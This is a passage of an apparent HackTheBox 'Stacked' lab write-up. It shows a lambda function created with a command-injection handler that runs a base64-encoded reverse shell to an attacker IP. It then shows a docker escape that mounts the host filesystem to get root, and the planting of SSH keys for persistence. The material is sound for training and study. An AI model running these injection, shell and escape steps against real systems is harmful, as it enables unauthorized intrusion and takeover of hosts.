 I base64 encoded my reverse shell and passed to bash

```
aws --endpoint-url http://s3-testing.stacked.htb lambda create-function --function-name "test6" --zip-file fileb://function.zip --runtime python3.9 --role arn:aws:iam::123456789012:role/lambda-ex --handler "test\$(echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTMvODA4NiAwPiYxICAK | base64 -d | bash)"
```
invoke it and we get shell as root

![Screenshot from 2022-03-22 15-31-35](https://user-images.githubusercontent.com/79413473/159455708-9ebf1159-d8aa-4dc5-8b14-be4c5553f343.png)

## Privilege escaltion: docker abuse

Now as root inside we can run docker and run containers and mount host file system in it.

![Screenshot from 2022-03-22 15-49-38](https://user-images.githubusercontent.com/79413473/159459053-df0b0f44-9ec3-4d33-a2f1-6b3a4e82c6a4.png)

Let's start image 0601ea177088 by mounting it with host file system. Other one is container in which we are. CHeck with *hostname*

```
docker run -d -v /:/mnt -it 0601ea177088 bash
```
it runs container in background and mount host file system in it. if -d options is not specified then you will require other pane to get root.

![Screenshot from 2022-03-22 15-53-08](https://user-images.githubusercontent.com/79413473/159459554-d58fc0ea-c392-4509-b206-a474f3d36b96.png)

Let's do **docker exec** in this new container. exec tells docker to run this new command in running container.

```
docker exec -i 88e0e95df8b2 bash
```

now in docker host file system is mounted

![Screenshot from 2022-03-22 15-56-34](https://user-images.githubusercontent.com/79413473/159461114-9ed76384-8a0a-4aea-8435-92d61e2a468a.png)

Let's read root flag from /mnt/root & gain persistence by placing our ssh keys in .ssh.

![Screenshot from 2022-03-22 15-57-53](https://user-images.githubusercontent.com/79413473/159461742-1055470d-c68a-455a-b86b-28ef25358203.png)

and that's how we get root on machine

![Screenshot from 2022-03-22 16-01-12](https://user-images.githubusercontent.com/79413473/159462300-1b13d099-bf98-42fc-92b5-2dc2bbc8ac27.png)

## Extras: Looking at mail server for xss paramters

Looking at cong file for mail server

![Screenshot from 2022-03-22 16-03-07](https://user-images.githubusercontent.com/79413473/159462625-c29611c4-6fae-4175-b669-f363d3691197.png)

I am not gonna replace 127.0.0.1 with * as it will ruin box for someone doing it currently. Let's do port forward
